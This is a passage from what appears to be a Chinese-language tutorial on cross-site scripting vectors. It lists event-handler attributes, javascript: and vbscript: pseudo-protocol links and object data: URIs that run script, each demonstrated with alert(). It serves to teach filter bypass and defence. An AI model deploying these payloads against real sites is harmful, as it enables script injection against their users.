 1.html 为以上代码，访问 1.html#bottom 会自动触发 onscroll 事件。

IE 中 hr 标签中的 onresize 属性，在当前窗口大小变化时，会触发 resize 事件，执行 alert(1)。

```
<hr onresize=alert(1)> 
```

还有非常多的组合可以在 IE 中使用，很难全部列出来，只列举出几个很少见的例子：

```
<bgsound onpropertychange=alert(1)>
<body onpropertychange=alert(2)>
<body onmove=alert(3)>
<body onfocusin=alert(4)>
<body onbeforeactivate=alert(5)>
<body onactivate=alert(6)>
<embed onmove=alert(7)>
<object onerror=alert(8)>
<style onreadystatechange=alert(9) >
<xml onreadystatechange=alert(10) >
<xml onpropertychange=alert(11) >
<table><td background=javascript:alert(12) > 
```

除了以上 on 的各种属性之外，src 和 href 属性由于支持 javascript 和 vbscript（只支持 IE）伪协议，所以也是可以执行 javascript 代码：

```
<a href="javascript:alert(1)">click me</a>
<a href="vbscript:alert(2)">click me</a> 
```

代码执行时必须使用()，不可以使用 vbscript 中的 alert+2，当点击之后，会弹出一个写在当前页面 DOM 中的数字 2 的警告框。

javascript:和 vbscript:协议执行后的结果将会映射在 DOM 后面。

```
<a href="javascript:'\x3cimg src\x3dx onerror=alert(document.domain)>'">click me</a> 
```

以上代码在 IE 和 Firefox 中点击 click me 之后可执行，并且可以看到弹出的 domain 为 a 标签中所在的 domain。

以上代码需要用户交互，下面看个不需要用户交互的例子，使用 object 标签和 data:标签：

```
<object data="javascript:alert(1)">
<object data="data:text/html,<script>alert(2)</script > ">
<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgzKTwvc2NyaXB0Pg"> 
```

以上三个在 Firefox 中可执行，第二个可在 Opera 中执行，把各标签中各属性支持 javascript 的总结了一些：

```
<iframe src="javascript:alert(1)"> // 火狐，Chrome, IE8
<embed src="javascript:alert(2)"> // 火狐 
<img src="javascript:alert(4)"> // IE6
<image src="javascript:alert(5)"> // IE6
<body background="javascript:alert(5)"> // IE6 
<script src="javascript:alert(6)"> // IE6 
<table background="javascript:alert(7)"> // IE6 
<isindex type="image" src="javascript:alert(8)"> // IE6-7 
```
